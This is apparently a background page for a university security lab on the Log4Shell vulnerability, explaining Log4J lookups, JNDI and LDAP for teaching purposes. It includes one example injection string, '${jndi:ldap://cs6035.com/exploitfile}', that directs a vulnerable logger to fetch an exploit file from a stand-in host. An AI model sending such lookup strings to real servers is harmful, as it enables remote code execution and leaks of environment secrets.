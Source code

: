 ```yaml
---
layout: default
title: Background
nav_order: 3
parent: Project Log4Shell!
grand_parent: Projects
---
```

  
<div style="text-align:center">
  <span style="color: #003057; font-size:36px; font-weight: bold; text-decoration:underline">BACKGROUND</span>
</div>

Log4J is a very popular open-source framework that allows application developers to log important messages such as program flow, program state, exceptions, etc. These messages can include user input, dynamic data, database results, etc.

Java Naming and Directory Interface (JNDI) creates a way for Java Objects to be looked up at runtime. There are many directory interfaces that provide different ways to lookup files. A common example is a database connection pool so that applications deployed on a server can get the connections they need by only needing to know the JNDI name instead of having to have the connection details. You can use Java Serialization to store the byte array representation of an object to store objects in a directory/naming service. JNDI uses Naming References if the object is too large such as “ldap://server/location”

Where this comes into play in this exploit, is the Lightweight Directory Access Protocol (LDAP) which is not specific to Java. LDAP provides the communication language that is required to receive and send information from directory services. It can be used for authentication like sending usernames/passwords or retrieving object data through a url from another server.

To tie this into Log4J, Log4J performs [lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html) which allow for [string substitution](https://logging.apache.org/log4j/2.x/log4j-core/apidocs/org/apache/logging/log4j/core/lookup/StrSubstitutor.html) of certain strings. These are in the form of <span style="font-weight: bold">${prefix:name}</span> i.e. a common one would be <span style="font-weight: bold">${java:runtime}</span> and running this would produce “Running Java version 1.8.0_20”. Here is where the JNDI and LDAP come into play. <span style="font-weight: bold">${jndi:\<lookup\>}</span> is a valid lookup expression recognized by the lookup by Log4J. 

A malicious user could specify a valid lookup protocol such as LDAP, RMI, or DNS in the JNDI lookup and direct the Log4J lookup to their malicious server/file. An example could be <span style="font-weight: bold">${jndi:ldap://cs6035.com/exploitfile}</span> which would load data from that domain if a connection can be established. Attackers can even get environment variables if RCE is disabled and learn about the server/server environment. Often, HTTP requests log header information, query parameters, path parameters, and more which allow a vector for this attack to take place. With this background, now we are ready to start this lab.

Here is a visual of the Log4j exploit and how it is accomplished (you can zoom in if this is too small via ctrl + scroll):

![alt text](/images/Log4Shell.PNG)
